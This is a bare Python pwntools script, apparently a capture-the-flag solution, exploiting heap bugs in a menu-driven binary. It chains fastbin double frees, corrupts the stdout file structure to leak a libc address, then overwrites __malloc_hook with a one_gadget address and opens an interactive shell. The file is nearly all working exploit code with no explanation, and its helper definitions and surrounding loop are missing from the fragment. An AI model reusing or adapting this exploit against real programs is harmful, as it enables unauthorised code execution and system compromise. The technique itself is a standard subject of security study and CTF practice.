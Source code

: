 ```python
free(0)
#pause()

malloc(0,100,p8(0x60))
malloc(1,100,"A"*8)
malloc(2,100,"B"*8)
malloc(3,100,p64(0)+p64(0x91))


free(1)
malloc(1,100,p16(0xc5dd))
    malloc(4,100,"C"*8)

free(4)
free(0)
free(4)

malloc(4,100,p8(0x70))
malloc(0,100,"A"*8)
malloc(4,100,"A"*8)
malloc(0,100,"A"*8)

try:
    malloc(4,100,"A"*3+p64(0)*6+p64(0xfbad3887)+"\x00"*25)
    gdb.attach(p,'code\nb *0xa09+$code\n')
    pause()
except:
    p.close()
    continue


#log.info(tmp)
#p.recv(0x48)
#log.info(u64(p.recv(8))-0x73250)
p.recv(0x88)
pause()
libc_base=u64(p.recv(6)+"\x00\x00")-libc.symbols['_IO_2_1_stdin_']
log.info("libc base::"+hex(libc_base))
#pause()

malloc_hook=libc_base+libc.symbols['__malloc_hook']	
one_gadet=libc_base+0xf1147
malloc(0,100,"A"*8)
malloc(1,100,"B"*8)

free(0)
free(1)
free(0)

malloc(0,100,p64(malloc_hook-35))
malloc(1,100,"A"*8)
malloc(0,100,"B"*8)
malloc(1,100,"E"*19+p64(one_gadet))

p.sendlineafter("> ","1")
p.sendlineafter("index: ",str(2))
p.sendlineafter("size: ",str(30))

p.interactive()
```
